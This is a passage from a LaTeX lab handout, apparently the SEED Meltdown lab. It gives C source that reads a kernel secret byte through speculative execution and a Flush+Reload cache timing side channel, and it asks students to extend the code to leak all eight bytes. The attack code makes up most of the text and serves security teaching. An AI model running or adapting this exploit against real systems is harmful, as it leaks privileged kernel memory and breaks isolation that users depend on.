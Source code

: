 \begin{lstlisting}[caption=\texttt{MeltdownAttack.c}]
static int scores[256];

void reloadSideChannelImproved()
{
  int i;
  volatile uint8_t *addr;
  register uint64_t time1, time2;
  int junk = 0;
  for (i = 0; i < 256; i++) {
     addr = &array[i * 4096 + DELTA];
     time1 = __rdtscp(&junk);
     junk = *addr;
     time2 = __rdtscp(&junk) - time1;
     if (time2 <= CACHE_HIT_THRESHOLD)
        scores[i]++; /* if cache hit, add 1 for this value */
  }
}

// Signal handler
static sigjmp_buf jbuf;
static void catch_segv() { siglongjmp(jbuf, 1); }

int main()
{
  int i, j, ret = 0;
  
  // Register signal handler
  signal(SIGSEGV, catch_segv);

  int fd = open("/proc/secret_data", O_RDONLY);
  if (fd < 0) {
    perror("open");
    return -1;
  }

  memset(scores, 0, sizeof(scores));
  flushSideChannel();
  
  // Retry 1000 times on the same address.
  for (i = 0; i < 1000; i++) {
    ret = pread(fd, NULL, 0, 0);
    if (ret < 0) {
      perror("pread");
      break;
    }
	
    // Flush the probing array
    for (j = 0; j < 256; j++) 
        _mm_clflush(&array[j * 4096 + DELTA]);

    if (sigsetjmp(jbuf, 1) == 0) { meltdown_asm(0xfb61b000); }

    reloadSideChannelImproved();
  }

  // Find the index with the highest score.
  int max = 0;
  for (i = 0; i < 256; i++) {
    if (scores[max] < scores[i]) max = i;
  }

  printf("The secret value is %d %c\n", max, max);
  printf("The number of hits is %d\n", scores[max]);

  return 0;
}
\end{lstlisting}


Please compile and run the code, and explain your observations. 
The code above only steals a one-byte secret from the kernel. The actual
secret placed in the kernel module has 8 bytes. You need to modify the above code
to get all the 8 bytes of the secret.


\section{Informe del Laboratorio}


